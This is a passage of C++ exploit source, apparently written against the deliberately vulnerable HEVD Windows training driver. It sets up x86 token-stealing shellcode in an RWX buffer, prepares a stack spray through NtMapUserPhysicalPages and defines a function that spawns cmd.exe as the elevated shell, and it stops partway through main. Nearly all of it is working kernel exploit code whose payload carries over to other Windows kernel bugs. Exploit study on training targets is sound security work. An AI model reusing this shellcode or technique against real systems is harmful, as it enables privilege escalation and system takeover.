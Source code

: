```cpp

void Spawn_Shell()
{
    PROCESS_INFORMATION Process_Info;
    ZeroMemory(&Process_Info, sizeof(Process_Info));
    STARTUPINFOA Startup_Info;
    ZeroMemory(&Startup_Info, sizeof(Startup_Info));
    Startup_Info.cb = sizeof(Startup_Info);
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &Startup_Info, &Process_Info);
}

int main()
{
    HANDLE HEVD = Get_Handle();

    // Just a dummy buffer so that we don't match the keyword value for BAD0B0B0
    char Input_Buffer[] = "\x41\x41\x41\x41";

    // Acutally creating an instance of our typedef by typcasting the result of a GetProcAddress call inside of ntdll.dll for 'NtMapUserPhysicalPages' (Thanks tekwizz!)
    _NtMapUserPhysicalPages NtMapUserPhysicalPages = (_NtMapUserPhysicalPages)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtMapUserPhysicalPages");

    // Token stealing payload straight from b33f's FuzzySec blogpost 
    char Shellcode[] = (
        "\x60"
        "\x64\xA1\x24\x01\x00\x00"
        "\x8B\x40\x50"
        "\x89\xC1"
        "\x8B\x98\xF8\x00\x00\x00"
        "\xBA\x04\x00\x00\x00"
        "\x8B\x80\xB8\x00\x00\x00"
        "\x2D\xB8\x00\x00\x00"
        "\x39\x90\xB4\x00\x00\x00"
        "\x75\xED"
        "\x8B\x90\xF8\x00\x00\x00"
        "\x89\x91\xF8\x00\x00\x00"
        "\x61"
        "\xC3"
        );

    // Allocate a RWX buffer the size of our shellcode
    LPVOID Shellcode_Addr = VirtualAlloc(NULL,
        sizeof(Shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    // Copying our shellcode buffer into our RWX buffer
    printf("[*] Allocating RWX shellcode at: %X\n", Shellcode_Addr);
    memcpy(Shellcode_Addr, Shellcode, sizeof(Shellcode));

    // This var is going to be a pointer to the address of Shellcode_Addr, this will end up being the value we spray on the stack
    LPVOID Spray_Address = &Shellcode_Addr;
    printf("[*] Our address to spray on the stack: %X\n", Spray_Address);

    // This var will be used as our BaseAddress in our NtMapPhysicalPages API call
    int Zero = 0;

    // We will typecast this to a PBYTE and reference its address when calling NtMapPhysicalPages
    char Page_Frame_Numbers[4096] = { 0 };

```